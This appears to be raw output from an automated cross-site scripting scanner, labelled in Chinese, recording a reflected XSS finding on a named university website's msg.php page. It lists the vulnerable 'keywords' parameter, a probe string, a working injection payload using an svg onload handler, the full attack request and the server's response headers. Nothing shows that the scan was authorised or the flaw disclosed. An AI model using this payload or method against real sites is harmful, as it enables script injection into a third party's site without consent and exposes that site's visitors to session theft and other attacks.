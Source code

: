 ## http://ies.ecust.edu.cn:80/en/msg.php
| Key | Value |
| --- | ----- |
| XSS类型 | html |
| 时间 | 2024-11-07 17:17:13 |
| XSS位置 | get_parameter |
| 隐藏参数 | true |
| Key | keywords |
| 描述 | html标签未转义，可攻击 |
| Payload | keywords="><id4nw5> |
| 利用payload | keywords="><svg onload=alert(1)>// |

### 请求包
```
GET /en/msg.php?api=buxz6&begindate=chya0&c=tjdp2&callback=q8lw8&categoryid=famz9&csrf_token=p9ru8&id=300&immagine=ztwh3&jsonp=ni8d2&keyword=xf1m7&keywords=%22%3E%3Cid4nw5%3E&l=my8a1&list_type=km266&month=pshy5&query=h4757&redirect=d1dn5&text=vnud2&tid=r25q0&unsubscribe_token=fnri7&view=pea59 HTTP/1.1
Host: ies.ecust.edu.cn:80
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept-Charset: utf-8
Cookie: somecookie
Accept-Encoding: gzip


```

### 返回Header
```
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Content-Type: text/html
X-Frame-Options: SAMEORIGIN SAMEORIGIN SAMEORIGIN SAMEORIGIN
X-Content-Type-Options: nosniff nosniff
X-Xss-Protection: 1; mode=block 1; mode=block
Date: Thu, 07 Nov 2024 17:17:08 GMT
Server: none
Referrer-Policy: strict-origin-when-cross-origin strict-origin strict-origin-when-cross-origin strict-origin
X-Download-Options: noopen noopen
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Set-Cookie: PHPSESSID=utscedt4578i2i91csu9t82rg2; path=/; secure; HttpOnly Path=/; HttpOnly; Secure
X-Permitted-Cross-Domain-Policies: master-only master-only

```
